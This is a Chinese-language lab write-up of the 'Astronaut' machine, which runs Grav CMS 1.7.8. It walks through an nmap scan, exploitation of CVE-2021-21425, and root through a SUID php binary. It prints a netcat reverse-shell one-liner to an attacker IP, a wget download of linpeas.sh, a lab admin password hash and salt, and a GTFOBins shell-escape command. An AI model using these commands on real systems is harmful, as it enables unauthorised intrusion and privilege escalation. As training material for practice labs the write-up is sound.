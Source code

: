 ```yaml
---
description: Easy - Linux / grav CMS v1.7.8 / php 7.4 SUID提权 / CVE-2021-21425
---
```


# ✔️ Astronaut

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和80

```bash
nmap -sC -sV -oA astronaut 192.168.235.12 --open
```

<figure><img src="../../.gitbook/assets/1 (35).png" alt=""><figcaption></figcaption></figure>

* 先检查80端口上的内容，发现是一个Apache的默认页面，其中有一个/grav-admin目录：

<figure><img src="../../.gitbook/assets/2 (33).png" alt=""><figcaption></figcaption></figure>

* 检查robots.txt文件，也发现了一些隐藏目录：

<figure><img src="../../.gitbook/assets/3 (30).png" alt=""><figcaption></figcaption></figure>

* 枚举80端口上的隐藏文件/目录，找到了登录入口，尝试弱口令登录失败：

<figure><img src="../../.gitbook/assets/4 (31).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 虽然无法登录，但已得知目标系统正在使用的是Grav CMS,可以直接尝试搜索相关漏洞：

<figure><img src="../../.gitbook/assets/5 (31).png" alt=""><figcaption></figcaption></figure>

* 发现有一个不用登录即可利用的任意yaml文件写入/升级的漏洞：

<figure><img src="../../.gitbook/assets/6 (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (28).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 执行该脚本的命令：

```bash
python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.159 6666 >/tmp/f' -t http://192.168.235.12/grav-admin
# kali：
nc -lvnp 6666
```

<figure><img src="../../.gitbook/assets/20 (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (31).png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 获取到基本立足点：

<figure><img src="../../.gitbook/assets/8 (31).png" alt=""><figcaption></figcaption></figure>

* 升级到交互shell：

```bash
python3 -c 'import pty;pty.sapwn("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/9 (30).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 在本地信息枚举的过程中，发现一个admin.yaml文件，其中包含了admin账户的哈希密码以及其他关于admin账户的信息：
  * `admin :$2y$10$dlTNg17RfN4pkRctRm1m2u8cfTHHz7Im.m61AYB9UtLGL2PhlJwe.`
  * admin@gravity.com

<figure><img src="../../.gitbook/assets/10 (32).png" alt=""><figcaption></figcaption></figure>

* 在security.yaml文件中，发现了一个貌似是有效凭证的信息：**salt : IJQxNdg2BPKhvp**

<figure><img src="../../.gitbook/assets/11 (29).png" alt=""><figcaption></figcaption></figure>

* 在versions.yaml文件中，发现当前grav CMS的详细版本号：**v1.7.8**

<figure><img src="../../.gitbook/assets/13 (29).png" alt=""><figcaption></figcaption></figure>

* 上传linpeas.sh进行信息收集：

```bash
# kali:
python3 -m http.server
# target:
wget http://192.168.45.159:8000/linpeas.sh
```

<figure><img src="../../.gitbook/assets/14 (26).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 从linpeas.sh的输出结果中发现，有可利用的SUID程序：**php 7.4**

<figure><img src="../../.gitbook/assets/15 (25).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (24).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 在gtfobins中查询到了命令：

```bash
CMD="/bin/sh"
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

<figure><img src="../../.gitbook/assets/17 (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (22).png" alt=""><figcaption></figcaption></figure>
